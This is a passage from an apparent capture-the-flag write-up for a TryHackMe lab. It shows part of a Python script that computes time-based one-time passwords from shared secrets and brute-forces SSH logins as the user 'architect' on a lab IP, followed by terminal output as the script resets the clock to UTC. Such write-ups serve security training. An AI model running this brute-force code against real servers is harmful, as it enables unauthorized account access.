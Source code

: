 ```py
        # HC Truncate
        T = HC[22:44]
        
        SSHOTP = T
        return SSHOTP

    def bruteForceSSH(self, SSHUsername, OTP):
        print(f'[*] Trying SSH OTP: {OTP}', end='\r')

        sshClient = SSHClient()
        sshClient.set_missing_host_key_policy(AutoAddPolicy())
        try:
            sshClient.connect(self.targetIPAdress, username=SSHUsername, password=OTP, banner_timeout=300)
            return True
        except AuthenticationException:
            # print(f'[-] Wrong OTP: {OTP}')
            pass
        except ssh_exception.SSHException:
            print('[*] Attempting to connect - Rate limiting on server')

def main():
    #shared secret token for OTP calculation
    sharedSecret1 = {Redacted_SST_1}
    sharedSecret2 = {Redacted_SST_2}
    sharedSecret3 = {Redacted_SST_3}
    # Change to the machine's IP
    targetIPAdress = '10.10.95.198'
    
    timeSimulatorClient = TimeSimulatorClient(sharedSecret1, sharedSecret2, sharedSecret3, targetIPAdress)

    # Change timezone & sync to the time server
    timeSimulatorClient.setTimeZone()
    timeSimulatorClient.syncTime()

    # Brute forcing SSH with computed OTP
    SSHUsername = 'architect'
    while True:
        OTP = timeSimulatorClient.getOTP()
        bruteForceResult = timeSimulatorClient.bruteForceSSH(SSHUsername, OTP)

        if bruteForceResult is True:
            print(f'[+] Found the correct OTP! {SSHUsername}:{OTP}')
            break

if __name__ == '__main__':
    main()
```

```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/M4tr1x-Exit-Denied/BlackCat-attachments/DevTools)-[2023.01.27|14:24:24(HKT)]
└> python3 modified_timeSimulatorClient.py 
[*] Setting timezone to UTC
[*] Before:
               Local time: Fri 2023-01-27 14:24:52 HKT
           Universal time: Fri 2023-01-27 06:24:52 UTC
                 RTC time: Fri 2023-01-27 06:24:52
                Time zone: Asia/Hong_Kong (HKT, +0800)
System clock synchronized: yes
              NTP service: active
          RTC in local TZ: no
[+] Timezone has been changed to UTC
```